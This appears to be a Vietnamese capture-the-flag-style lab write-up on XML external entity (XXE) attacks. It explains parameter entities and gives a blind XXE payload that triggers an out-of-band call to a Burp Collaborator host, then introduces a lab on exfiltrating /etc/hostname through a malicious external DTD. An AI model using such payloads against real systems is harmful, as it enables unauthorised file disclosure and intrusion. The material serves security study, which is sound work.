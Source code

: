 XML **Parameter Entity** là một loại entity đặc biệt được định nghĩa trong **DTD** (**Document Type Definition**) và chỉ có thể được sử dụng bên trong **DTD**, không thể dùng trực tiếp trong nội dung XML.

Cú pháp và ví dụ:

<!ENTITY % myEntity "Hello, world!">

—> có dấu % trước entity

—> Không thể gọi `&myEntity;` trực tiếp trong nội dung XML

## Root Cause:

XML Parser đã có tắt tính năng xử lý External Entities những vẫn cho phép Parameter Entity 

## Cách khai thác:

Vào repeater, gửi payload có chứa **Parameter entity** trỏ đến Burp Collaborator

![image.png](Images/image%2011.png)

payload: <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "burp-collaborator"> %xxe; ]>

![image.png](Images/image%2012.png)

# **Lab5: Exploiting blind XXE to exfiltrate data using a malicious external DTD**

Trong lab này "Check stock" sử dụng XML praser sẽ không hiển thị kết quả gì trong response và block các request có chứa external entity thông thường. Để hoàn thành bài lab cần lấy thông tin từ /etc/hostname
